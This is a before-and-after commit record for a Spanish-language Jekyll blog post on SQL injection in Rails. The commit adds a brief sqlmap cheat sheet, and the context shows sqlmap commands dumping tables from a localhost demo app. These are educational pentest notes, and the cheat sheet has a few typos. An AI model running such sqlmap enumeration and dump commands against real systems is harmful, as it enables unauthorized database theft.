

Before and after one commit to fbarriosCL/fbarriosCL.github.io, a Jekyll site: the page built from _posts/2016-04-26-sql-inyection-rails.markdown, in a window 1280 px wide and 900 px high, scrolled down 827 px. Shown: the top 887 px of the window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1352 px from its top, so only the background shows below that.

````diff
--- a/_posts/2016-04-26-sql-inyection-rails.markdown
+++ b/_posts/2016-04-26-sql-inyection-rails.markdown
@@ -45,3 +45,22 @@
 sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --tables
 sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 -T inyections --dump -v 3
 ```
+
+Ayuda SQLMAP.
+
+```
+/sqlmap.py -u URL --dbs/
+/sqlmap.py -u URL -D --table
+/sqlmap.py -u URL -D -T -columns
+/sqlmap.py -u URL -D -T -C --dump
+
+
+-D:Base de datos
+-T:Tablas
+-C:Columnas
+-U:Usurio
+
+--table
+--columns
+--dump
+```
````
Also changed, not shown: _posts/2016-04-27-rails-5-accessed_fields.markdown (added, +83 -0 lines).
